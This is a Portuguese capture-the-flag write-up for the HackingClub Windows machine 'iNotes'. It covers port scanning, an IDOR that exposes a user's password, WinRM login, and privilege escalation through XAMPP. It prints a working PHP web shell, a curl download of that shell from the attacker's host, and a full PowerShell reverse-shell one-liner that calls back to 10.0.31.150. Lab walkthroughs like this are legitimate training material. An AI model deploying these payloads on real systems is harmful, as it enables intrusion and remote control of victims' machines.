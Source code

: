 ```yaml
---
title: 'iNotes Writeup'
date: '2024-11-13'
tags: ['IDOR', 'Windows']
draft: false
summary: 'Essa é uma maquina de campeonato da HackingClub, nela encontramos um IDOR que nos proporciona o acesso inicial e o Privillege Escalation através do XAMPP.'
images: ['/static/images/inotes-writeup-images/default.png']
authors: ['default']
---
```


![logo](/static/images/inotes-writeup-images/default.png)

## **Plataforma**: Hacking Club

### **Dificuldade:** Easy

### **Nome**: iNotes

---

### **Port Scanning**

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.58 ((Win64) OpenSSL/3.1.3 PHP/8.0.30)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: iNotes
|_Requested resource was /login.php
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-13 13:09:38Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: inotes.hc0., Site: Default-First-Site-Name)
443/tcp   open  ssl/http      Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.0.30)
| http-ls: Volume /
|   maxfiles limit reached (10)
| SIZE  TIME              FILENAME
| 241   2024-11-06 22:10  bootstrap.php
| -     2024-11-06 22:11  database/
| 20K   2024-11-13 13:10  database/database.sqlite
| -     2024-11-06 22:10  functions/
| 129   2024-11-06 22:10  functions/auth.php
| 319   2024-11-06 22:10  functions/db.php
| 416   2024-11-06 22:10  functions/flash.php
| 82    2024-11-06 22:10  functions/utils.php
| 137   2024-11-06 04:43  mssql.xml
| -     2024-11-06 22:10  public/
|_
| http-methods:
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_ssl-date: TLS randomness does not represent time
|_http-title: Index of /
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4:4cc9:9e84:b26f:9e63:9f9e:d229:dee0
|_SHA-1: b023:8c54:7a90:5bfa:119c:4e8b:acca:eacf:3649:1ff6
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: inotes.hc0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=EC2AMAZ-76KN0U2.inotes.hc
| Issuer: commonName=EC2AMAZ-76KN0U2.inotes.hc
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-11-03T21:38:30
| Not valid after:  2025-05-05T21:38:30
| MD5:   1381:f5d4:0072:f117:f26e:3077:5362:4890
|_SHA-1: c4ea:7d46:283c:050f:3c94:9a76:e862:4323:4260:5a64
| rdp-ntlm-info:
|   Target_Name: INOTES
|   NetBIOS_Domain_Name: INOTES
|   NetBIOS_Computer_Name: EC2AMAZ-76KN0U2
|   DNS_Domain_Name: inotes.hc
|   DNS_Computer_Name: EC2AMAZ-76KN0U2.inotes.hc
|   Product_Version: 10.0.20348
|_  System_Time: 2024-11-13T13:10:37+00:00
|_ssl-date: 2024-11-13T13:10:46+00:00; 0s from scanner time.
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49673/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49686/tcp open  msrpc         Microsoft Windows RPC
49713/tcp open  msrpc         Microsoft Windows RPC
Service Info: Hosts: EC2AMAZ-76KN0U2, www.example.com; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2024-11-13T13:10:39
|_  start_date: N/A
```

Por se tratar de uma maquina Windows (AD), diversos serviços em múltiplas portas estão abertos.

---

## Enumeration

`http://172.16.4.116`

![inotes](/static/images/inotes-writeup-images/image.png)

Testei SQL Injection no campo de login, mas não obtive sucesso, então decidi registrar um novo usuário.

![inotes 1](/static/images/inotes-writeup-images/image1.png)

Após se logar.

![inotes 2](/static/images/inotes-writeup-images/image2.png)

Criando uma anotação de teste.

![inotes 3](/static/images/inotes-writeup-images/image3.png)

IDOR encontrado ao trocar o ID da nota.

![inotes 4](/static/images/inotes-writeup-images/image4.png)

![inotes 5](/static/images/inotes-writeup-images/image5.png)

Utilizando o IDOR pra identificar e ler todas as notas presentes na aplicação.

Gerei uma wordlist contendo os números de 1 a 107

`seq 1 107 > wordlists.txt`

Depois mandei a wordlists pro Intruder do BurpSuite para enumerar todos os IDs.

![inotes 6](/static/images/inotes-writeup-images/image6.png)

O ID de numero 97 revela as credenciais do usuário john.

`john:Dn*Th5di7UwFJvTM`

![inotes 7](/static/images/inotes-writeup-images/image7.png)

---

## Foot Hold

O AD possui diversos serviços abertos, no entanto, o único acessivel com as credenciais achadas foi o WinRM na porta 5985.
Com as credenciais em mãos, podemos logar na maquina via WinRM.

`evil-winrm -i 172.16.4.176 -u john -p Dn*Th5di7UwFJvTM`

![inotes 8](/static/images/inotes-writeup-images/image8.png)

---

## Privillege Escalation

A maquina possui um XAMPP instalado, sabendo disso, eu criei uma web-shell em php.

```python
<?php
if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
}
?>
```

com isso, eu mandei essa web-shell para o diretório do XAMPP, que no caso fica em: `C:\xampp\htdocs`

`curl http://10.0.31.150/shell.php -o shell.php`

![inotes 9](/static/images/inotes-writeup-images/image9.png)

![inotes 10](/static/images/inotes-writeup-images/image10.png)

`https://172.16.4.176/shell.php?cmd=whoami`

![inotes 11](/static/images/inotes-writeup-images/image11.png)

Por fim você pode usar a web-shell pra pegar a flag final ou gerar uma reverse-shell.

`https://172.16.4.176/shell.php?cmd=powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.31.150',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

OBS: Lembre de encodar a payload.

![inotes 12](/static/images/inotes-writeup-images/image12.png)

---

## Proof

![inotes 12](/static/images/inotes-writeup-images/image13.png)

